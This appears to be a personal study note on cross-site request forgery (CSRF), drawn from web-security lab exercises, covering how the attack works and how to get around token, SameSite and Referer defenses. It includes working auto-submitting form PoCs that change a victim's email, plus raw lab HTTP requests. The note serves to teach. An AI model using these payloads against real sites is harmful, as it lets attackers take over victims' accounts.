

>[!question] What is CSRF?
>Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. This allows attacker to partially circumvent the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md).

An HTTP request can be generated in thousands of ways, including with the following code:

```html

```

If a [crypto.example.com](http://crypto.example.com/) domain exists, attaching the following code to an e-mail would enable a victim to be defrauded by a request that was never made actively.

## How does CSRF work?

Three different key conditions must be satisfied:

- **A relevant action**: There is an action within the application that the attacker has a reason to induce. (payments, changing user's data, etc.)
- **Cookie-based session handling**: There is no other mechanism in place for tracking sessions or validating user requests besides cookies.
- **No unpredictable request parameters**: The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess.

>[!note]
>Although CSRF is normally described in relation to cookie-based session handling, it also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication.

## Basic PoC

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Defenses against CSRF attacks

### CSRF tokens

>[!question] What is a CSRF token?
>**CSRF tokens** are a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, the client must include the correct CSRF token in the request.

#### Common bypasses and flaws

- **Validation of CSRF token depends on request method**: 
  Some applications correctly validate the token when the request uses a specific method but skip the validation when other methods are used.

- **Validation of CSRF token depends on token being present**:
  Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

- **CSRF token is not tied to the user session**:
  Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool. In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

- **CSRF token is tied to a non-session cookie**:
  Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. If the web site contains **any behavior that allows an attacker to set a cookie in a victim's browser**, then an attack is possible.
  >[!note]
  >The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on `staging.demo.normal-website.com` could be leveraged to place a cookie that is submitted to `secure.normal-website.com`.
  
  >[!example]
  >Vulnerable request which allows to set arbitrary cookies:
  >
  >CSRF request using a secondary cookie to verify CSRF owner:
  >```http
POST /my-account/change-email HTTP/1.1
Host: 0ab300650480e718c04b4561003a00e1.web-security-academy.net
Cookie: LastSearchTerm=test; csrfKey=Rgkjc4H27R86RdwCHABNut5IkSp27ptL; session=dP0hnLqpEuSTZI6o04EOafAnL1RiVYMx
Content-Length: 59
Content-Type: application/x-www-form-urlencoded
Connection: close
>
email=test%40test.com&csrf=waQRtvxCwZbNaHazxoQTU9HXCFw4PZ6S
>```

- **CSRF token is simply duplicated in a cookie**:
  In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. This is sometimes called the "double submit" defense against CSRF. Like before, the attacker can again perform a CSRF attack if the web site contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own.
  >[!example]
  >```http
  >POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa
>
>csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
>```

### SameSite attribute on cookies

>[!question] What is the [SameSite attribute](SameSite%20attribute.md) for cookies?
>SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. As requests to perform sensitive actions typically require an authenticated session cookie, the appropriate SameSite restrictions may prevent an attacker from triggering these actions cross-site.

#### Common bypasses and flaws
- [Bypass SameSite Lax restrictions using GET requests](SameSite%20attribute.md#Bypass%20SameSite%20Lax%20restrictions%20using%20GET%20requests)
- [Bypass SameSite Lax restrictions with newly issued cookies](SameSite%20attribute.md#Bypass%20SameSite%20Lax%20restrictions%20with%20newly%20issued%20cookies)
- [Bypass SameSite restrictions using on-site gadgets](SameSite%20attribute.md#Bypass%20SameSite%20restrictions%20using%20on-site%20gadgets)
- [Bypass SameSite restrictions via vulnerable sibling domains](SameSite%20attribute.md#Bypass%20SameSite%20restrictions%20via%20vulnerable%20sibling%20domains)

### Referer-based validation

^7c9e8d

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, by verifying that the request originated from the application's own domain.

#### Common bypasses and flaws

- **Validation of Referer depends on header being present**:
  Some applications validate the `Referer` header when it is present in requests but skip the validation if the header is omitted. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack: `<meta name="referrer" content="never">`
>[!example]
>```html
><html>
><meta name="referrer" content="never">
>  <!-- CSRF PoC - generated by Burp Suite Professional -->
>  <body>
>  <script>history.pushState('', '', '/')</script>
>    <form action="https://0a85006803036428c2d207fe00770035.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```

- **Validation of Referer can be circumvented**:
  Some applications validate the `Referer` header in a naive way that can be bypassed (eg. appending or adding at the end of the query string the desired domain). However, refer to [evading restrinctions](Evading%20Restrictions.md#Other%20resources) for further techniques.
>[!warning]
>Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to reduce the risk of sensitive data being leaked in this way, **many browsers now strip the query string from the Referer header by default**. You can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set. This ensures that the full URL will be sent, including the query string.

   >[!example]
   >Response header must include `Referrer-Policy: unsafe-url`
>```html
><html>
>  <!-- CSRF PoC - generated by Burp Suite Professional -->
>  <body>
>  <script>history.pushState('', '', '/exploit?a=https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net')</script>
>    <form action="https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```

